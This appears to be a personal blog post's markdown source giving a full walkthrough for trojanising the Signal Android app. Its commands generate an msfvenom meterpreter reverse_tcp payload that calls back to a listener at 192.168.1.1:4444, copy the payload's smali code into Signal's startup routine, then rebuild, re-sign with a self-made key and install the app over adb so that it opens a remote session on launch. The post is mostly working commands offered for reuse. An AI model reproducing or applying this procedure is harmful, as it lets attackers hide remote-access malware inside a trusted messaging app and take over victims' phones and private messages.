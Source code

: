 ```yaml
---
layout: post
title: Msfvenom Android APK
---
```


This post is just going to cover the unpackaging and recreating of official Android apps with Msfvenom payloads. I made this 
mainly as future notes for myself, but maybe this can help you too. Also, because the documentation that I was working from 
is now outdated.

Install the following apps:

	sudo apt install apktool apksigner adb zipalign keytool

Assuming you have msfvenom/metasploit installed, create the malicious APK:

	msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 R > meterpreter.apk

The options are pretty straightforward. The listener is TCP based versus the other HTTP or HTTPS options. And, the listener 
IP address to connect back is at 192.168.1.1 and the port is 4444. Once the APK is built, we can unpackage it.

	apktool decode -o meterpreter meterpreter.apk

	( -o <name> is the name of the folder where everything will be decoded to )
	( and, the apk is the target that will be decoded )

Do this for the meterpreter.apk as well as the official app that you want to repackage:

	apktool decode -o signal signal.apk

Copy the contents of the meterpreter smali folder to the official app:

	cp -r meterpreter/smali/com/metasploit signal/smali/com/.

	( this file structure is Android 11 specific )
	( against a Pixel 6 using arm64-v8a )

Next, we need to identify the beginning of the official APK. We need to find the <activity ... > that is used when the app 
is first launched. When comparing against Signal version 6.1.3, this should be the following file:

	nano signal/smali/org/thoughtcrime/securesms/ApplicationContext.smali

	( search for the following lines "onCreate()V" or "onCreate(Landroid...)V"

	( paste the following below ".line 131", as an example, verify for your own APK where to place )

	invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V

Build the app into an APK and zipalign it:

	apktool build signal/ --use-aapt2

	zipalign -f -p 4 signal/dist/<CREATED_APK>.apk signal/dist/<OUTPUT_ALIGNED_APK>.apk

	( where the created apk is the one we just built, and the output aligned apk is the aligned version )

Let's generate the key used after rebuilding the APK:

	keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000

And, we can now sign the newly created and aligned APK:

	apksigner sign --ks key.keystore --ks-pass pass:password signal/dist/<OUTPUT_ALIGNED_APK>.apk

This should properly keep the APK aligned and now signed as well. The last thing to do is pair your Android device and 
authenticate the ADB connection. The app can then be pushed with the following command:

	adb install signal/dist/<OUTPUT_ALIGNED_APK>.apk

Start the metasploit listener on the host. Once it is ready, launch the app from the compromised device and it should 
connect immediately. If there are delays or issues getting the device to spawn a msf session, check your routing from the 
compromised device.

Extra Sources:

-- [How to exploit any android device using msfvenom and Metasploit 
Framework](https://archanatulsiyani21.medium.com/how-to-exploit-any-android-device-using-msfvenom-and-metasploit-framework-9e90af4a4d7b)
-- [Embedding Meterpreter in Android APK](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)
